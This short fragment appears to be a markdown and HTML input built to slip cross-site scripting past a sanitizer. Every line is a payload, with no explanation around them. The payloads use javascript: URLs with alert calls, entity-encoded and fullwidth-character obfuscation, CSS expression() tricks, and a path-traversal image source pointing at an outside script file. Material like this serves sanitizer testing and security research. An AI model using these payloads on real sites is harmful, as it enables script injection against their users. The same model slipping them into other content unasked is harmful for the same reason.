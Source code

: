 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="x:ｅｘｐｒｅｓｓｉｏｎ(javascript:alert(1))">bbbb</div>
<span value="*{x:ｅｘｐｒｅｓｓｉｏｎ(javascript:alert(1))}">aaa</span>

](()
